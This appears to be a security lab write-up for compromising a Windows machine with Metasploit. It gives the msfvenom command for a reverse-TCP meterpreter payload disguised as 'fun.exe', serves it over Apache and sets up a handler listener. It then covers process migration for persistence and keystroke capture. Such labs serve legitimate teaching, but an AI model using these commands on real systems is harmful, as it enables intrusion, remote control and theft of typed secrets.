# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

### PROGRAM:
Find the attackers ip address using ifconfig
#### OUTPUT:



Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT


copy the fun.exe into the apache /var/www/html folder



Start apache server
sudo systemctl apache2 start



Check the status of apache2



Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler



set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit



To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 



Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump	Shows the keystrokes captured so far


## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
